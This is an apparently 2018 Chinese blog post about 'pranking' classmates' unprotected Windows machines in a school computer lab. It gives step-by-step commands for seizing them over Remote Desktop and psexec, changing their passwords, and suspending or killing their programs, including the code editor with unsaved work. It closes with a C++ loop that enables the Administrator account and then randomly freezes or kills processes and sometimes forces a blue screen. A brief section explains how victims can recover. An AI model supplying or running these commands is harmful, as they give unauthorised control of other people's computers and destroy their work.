 ```yaml
---
author: Duanyll
tags:
  - 搞事情
date: 2018-10-24T00:00:00.000Z
title: 论给电脑设密码的重要性——机房惨案的新境界
---
```


昨天颓了半个晚自习研究机房惨案黑科技，感受到了机房电脑不设密码又不开防火墙还不开UAC的巨大风险……

> # **在机房实际运用以下内容可能导致您被教练锤，被同学揍或者是更加严重的后果！**

<!-- more -->

以下内容的前提是对方没设密码

## net user 改密码制造对方断不掉的远程桌面连接

基础：`net user admin fuck`把admin的密码设为`fuck`

1. 把`net user admin fuck`复制到剪贴板里
2. 用远程桌面连你要机惨的人
3. 迅速按下`Win+r`,`Ctrl+v`,`Enter`
4. 然后他除了重启就断不掉链接了，他的电脑上会提示“用户名或密码错误”，但是连密码输入框都不显示，趁机让他在洛谷上AKIOI吧

## psexec 静默打开cmd

1. 去搜索下载一个psexec（SysinternalsSuite里面有）
2. cmd运行`psexec \\他的IP -u admin -s cmd`
3. 提示输入密码，直接回车，如果直接进入他的cmd你就中奖了
4. 你就可以在cmd里面改他的密码，删他的程序，给他的iostream加点料了

## 如果你被搞了

1. 远程桌面型：告诉教练或者揍他
2. psexec型（很难察觉）：迅速`net user admin ""`清除密码，注销重登
3. 没有还原卡：重启按F8，选带命令提示符的安全模式，用上面指令清密码，重启

## 再补充几条

```sh
pssuspend \\stu5-xxx -u admin explorer.exe #卡住他的桌面（可以换成别的程序）
pssuspend \\stu5-xxx -u admin explorer.exe -r #恢复他的桌面
pskill \\stu5-xxx -u admin devcpp.exe #强杀devcpp（不会保存代码）
pspasswd \\stu5-xxx -u admin admin fuck #一键改他的密码
notmyfaultc crash 0x01 #瞬间蓝屏（自己的电脑）
```

pssuspend配合while(true)与sleep效果奇佳。

## 一段振奋人心的代码

请在sysinternals suite里面执行。方便起见，我把主机名写死在代码里了。

```cpp
#include <cstdlib>
#include <iostream>
#include <cstdio>
#include <ctime>
#include <windows.h>

using namespace std;

int main(){
	srand(time(NULL));
	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator /active:yes");
	system("psexec \\\\xxx -accepteula -u admin -p \"\" -s net user Administrator happy");
	while(1){
		Sleep(500);
		switch(rand()%13){
			case 0:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
				break;
			case 1:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
				break;
			case 2:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
				break;
			case 3:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
				break;
			case 4:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" chrome -r");
				break;
			case 5:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp -r");
				break;
			case 6:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" explorer -r");
				break;
			case 7:
				system("pssuspend \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr -r");
				break;
			case 8:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" chrome");
				break;
			case 9:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" devcpp");
				break;
			case 10:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" explorer");
				break;
			case 11:
				system("pskill \\\\xxx -accepteula -u Administrator -p \"happy\" taskmgr");
				break;
			case 12:
				int p = rand()%100;
				if(p==0){
					system("pskill \\\\xxx -u Administrator -p \"happy\" -c -d -s notmyfaultc.exe crash 0x01 -accepteula");
				}
				break;
		}
	}
}
```
